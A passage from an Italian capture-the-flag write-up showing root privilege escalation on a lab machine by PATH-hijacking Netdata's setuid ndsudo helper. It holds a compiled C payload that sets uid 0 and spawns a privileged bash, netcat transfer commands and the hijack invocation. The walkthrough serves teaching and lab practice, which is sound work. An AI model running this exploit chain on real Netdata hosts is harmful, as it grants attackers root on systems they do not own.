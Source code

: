 Quindi, **ndsudo** e' utilizzato per lanciare collector **nvme** per il monitoraggio degli NVMe devices.

```bash
$ oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
```
nvme : not available in PATH.
```

Su PATH non e' presente il collector **nvme**.

Si potrebbero sfruttare i privilegi di **ndsudo** per eseguire codice malevole modificando la variabile d'ambiente **PATH**.

### Crafting the payload

Si costruisce un file per accedere alla shell privilegiata.
```c
#include <unistd.h>
#include <stdlib.h>

void main() {
    setuid(0);
    setgid(0);
    char* cmd = "sudo /bin/bash -p";
    system(cmd);
}
```

Si ottiene il file eseguibile specificando come filename **nvme**.
```bash
$ gcc -o nvme exploit.c
```

Si carica il file eseguibile sulla macchina target nella cartella /tmp.
```bash
oliver@editor:~$ nc -lvnp 9001 > /tmp/nvme 
Listening on 0.0.0.0 9001
```
```bash
$ cat nvme | nc 10.10.11.80 9001 
```

```bash
oliver@editor:~$ file /tmp/nvme 
/tmp/nvme: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d24164a7e6e15ceaf2161b4cd0a92f4798c56e13, for GNU/Linux 3.2.0, not stripped
```

### Path Hjacking

Si lancia l'exploit.
```bash
# Set the executable permission
oliver@editor:~$ chmod +x /tmp/nvme

# Path Hijacking
oliver@editor:~$ PATH=/tmp/:$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
